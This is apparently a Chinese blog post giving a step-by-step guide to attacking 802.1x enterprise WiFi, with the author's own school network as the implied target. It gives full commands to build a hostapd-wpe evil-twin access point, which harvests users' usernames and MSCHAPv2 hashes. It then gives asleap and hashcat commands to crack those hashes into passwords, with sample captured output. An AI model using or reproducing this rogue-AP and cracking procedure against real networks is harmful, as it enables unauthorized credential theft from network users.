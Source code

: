 ```yaml
---
layout: single
title: 使用Kali Nethunter破解802.1x安全性WiFi
date: 2017-02-10 12:25:57
categories: "Hack"
tags:
- 黑客手机
- 无线安全
- Kali
---
```


# 背景
笔者学校的无线网络采用1x认证方式，所以你懂的。

之前参考GitHub上的一个项目<https://github.com/OpenSecurityResearch/hostapd-wpe>在Kali2.0上部署成功，但是在手机端的情况比较不同，猜测是因为架构有一定区别所导致的，而且该网页上的Hostapd版本比较低，遂继续查找，找到了aircrack-ng的GitHub的某一个页面上展示了Hostapd-wpe的用法<https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe>

页面上写的比较详细，但是实践中笔者还是踩了不少坑，下面开始：

**注意，本文在Kali 2.0及以上的版本中应该也适用！但是本人没有测试，还请测试通过的朋友留个言**

# 依赖
- pkg-config
- libssl 1.0
- libnl3 (and genl)
- sqlite3

安装依赖：
```shell
apt-get install libssl1.0-dev libnl-genl-3-dev libnl-3-dev pkg-config libsqlite3-dev
```

由于手机上敲指令过于蛋疼，笔者自己ssh到了手机上，在Kali的应用中可以直接打开SSH服务。

用ftp或者wget之类的将patch文件下载到手机上，这里笔者的路径是 ~/1x/ ,执行：

注:补丁文件<https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/patches/wpe/hostapd-wpe/hostapd-wpe.patch>

## 下载、编译、安装
```shell
# 下载
wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
tar -zxf hostapd-2.6.tar.gz
cd hostapd-2.6
# 打补丁
patch -p1 < ../hostapd-wpe.patch
cd hostapd
# 编译安装
make
make install
make wpe
```

## 制作证书
```shell
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```
这里会出现关于gendh命令未找到的错误，原因是openssl将gendh已经换成了dhparam,在该目录下的Makefile中将gendh替换为dhparam即可。

## 运行
请注意在Nethunter中已经预先安装了hostapd，但是那个版本的hostapd是不支持1x的。所以请切换到我们部署的hostapd目录下，运行：
```shell
./hostapd ./hostapd-wpe.conf
```

这里的配置文件需要修改，需要修改的地方有：
```shell
interface=wlan1
ssid=YOUR_SSID
driver=nl80211
hw_mode=g
#fragm_threshold=-1
#rts_threshold=-1
# 以上两行需要添加注释
```

之后再运行，即可成功。日志的数据为该目录下的hostapd-wpe.log文件，其记载了用户的用户名和MSCHAPv2认证hash值。

# 破解
由于采用MSCHAPv2认证，所以密码并不会明文显示。主要有两种方法，其一是直接用系统中的工具asleep进行破解，举个栗子：

## asleep
采集到的日志样例：
```shell
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

执行：
```shell
$ asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

其中wordlist需要自己准备

## hashcat
另一种方法是利用hashcat进行破解，其好处是可以根据掩码实时生产字典爆破而且可以使用GPU+CPU资源进行破解，速度比较科学。

关于hashcat的获取，请去官方网站<https://hashcat.net/>下载。

### hashcat brief introduction
```shell
hashcat [选项] ... hash|hashfile|hccapfile [字典|掩码|路径]
-m, --hash-type        /哈希值类型，我们使用5500 NetNTLMv1
-a, --attack-mode      /攻击模式，这里使用3 暴力破解
-d, --opencl-devices   /使用设备，1：CPU 2：GPU 3：FPGA，DSP
-o, --outfile          /输出文件路径-i, --incerment        /掩码破击时使用，设置掩码上下限
```

笔者这里使用的参数如下：
```shell
./hashcat64.exe -d 1 -a 3 -m 5500 -o "output path" -i --increment-min=1 --increment-max=8 -1 ?l "input filepath" ?1?1?1?1?1?1?1?1
```

其中，-1 ?l 代表定义1号掩码的格式为所有小写字母，参考掩码：
### hashcat maskcode
```shell
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
s |  !"#$%&'()*+,-./:;=?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

将之前得到的输出结果按照
username::::response:challenge
的格式存储在文本文档中，注意去掉hash值中的冒号。运行hashcat

# 后记

为了方便起见，可以将其作为用户定义脚本存储在nethunter的custom command中：
![OP3 customcommand](/assets/images/nethunter-8021x/custom_command.jpg)

运行截图：
![OP3 test1x](/assets/images/nethunter-8021x/1x_test.jpg)
